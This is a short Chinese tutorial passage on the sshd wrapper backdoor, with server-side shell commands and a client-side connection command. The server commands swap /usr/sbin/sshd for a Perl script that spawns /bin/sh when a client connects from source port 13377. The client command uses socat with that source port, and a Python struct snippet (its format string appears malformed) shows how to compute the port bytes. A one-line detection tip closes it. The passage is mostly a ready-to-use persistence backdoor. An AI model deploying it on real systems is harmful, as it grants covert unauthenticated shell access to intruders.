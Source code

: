 简单点就是从sshd fork出一个子进程，输入输出重定向到套接字，并对连过来的客户端端口进行了判断。

服务端：

```
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
```

客户端：

```
socat STDIO TCP4:target_ip:22,sourceport=13377

#如果你想修改源端口，可以用python的struct标准库实现。其中x00x00LF是19526的大端形式，便于传输和处理。
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A
```

![](.\image\privilege-5-5.png)

排查技巧：

```
# ls -al /usr/sbin/sshd
# cat /usr/sbin/sshd
可通过重装ssh服务恢复。
```
